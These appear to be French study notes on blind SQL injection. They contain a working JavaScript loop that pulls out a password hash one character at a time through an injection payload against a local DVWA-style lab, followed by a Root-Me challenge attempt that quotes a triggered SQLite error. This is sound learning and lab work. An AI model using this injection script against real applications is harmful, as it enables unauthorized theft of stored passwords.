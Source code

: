 # SQL Injection (Blind)


Exemple de boucle pour récupérer et tester toute les valeurs sur tous les caractères du mot de passe.

[Rappel : "abcdef0123456789" est le format hexadécimal !](https://sti2d.ecolelamache.org/ii_lhexadcimal.html)


```javascript
let idUser = 1;
let lettersPwd = [];

console.log("Recupération du MDP en cours ....");

"abcdef0123456789".split("").forEach((letter) => {
    for(i=1; i<=32;i++) {
        testLetter(letter, i);
    }
}
);

function testLetter(letter, position) {

    let injection = `${idUser}' AND substr( password , ${position}, 1) LIKE '${letter}' -- -`;
    fetch(`http://localhost:81/vulnerabilities/sqli_blind/?Submit=Submit&id=${injection}`).then( (response) => {
        if(response.ok) lettersPwd[position-1] = letter;
        if(lettersPwd.join('').length == 32) console.info(`le mdp : ${lettersPwd.join('')}`) 
    } );

}

```


### [SQL Injection - En aveugle](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-en-aveugle?lang=fr)

![Exercice](assets/picture/exercices_root_me_sql_injection_authentification_v0.02.png)

Dans cette exercice on remarque un formulaire avec action null ou cachée, avec 2 input (login, password) avec un submit.

J'aimerais lire le fichier index.php pour comprendre l'utilisation de la requête SQL 

Erreur php en hexa :
Erreur : + <?php echo(;>
Hexa : 3C3F706870206563686F283B3F3E


Login : "admin"
Password : " '3C3F706870206563686F283B3F3E

```php
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "3C3F706870206563686F283B3F3E" in /challenge/web-serveur/ch10/index.php on line 39
```

